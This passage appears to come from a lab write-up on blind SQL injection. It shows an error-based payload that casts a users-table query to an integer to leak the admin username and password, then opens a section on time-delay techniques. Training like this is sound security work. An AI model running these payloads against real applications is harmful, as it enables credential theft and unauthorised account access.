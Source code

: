 But if we try to adapt and put:

<figure><img src="../../.gitbook/assets/2024-04-19_11-12.png" alt=""><figcaption></figcaption></figure>

we see the query is cut to a certain point, so we need to free some space by reducing the initial tracking ID

```
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

<figure><img src="../../.gitbook/assets/2024-04-19_11-19.png" alt=""><figcaption></figcaption></figure>

The error is different, so now we can try printing out the password:

<figure><img src="../../.gitbook/assets/2024-04-19_11-29.png" alt=""><figcaption></figcaption></figure>

and just like that we are able to connect to the admin account

final payload:

```
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

#### Exploiting blind SQL injection by triggering time delays

It is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false. As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response.
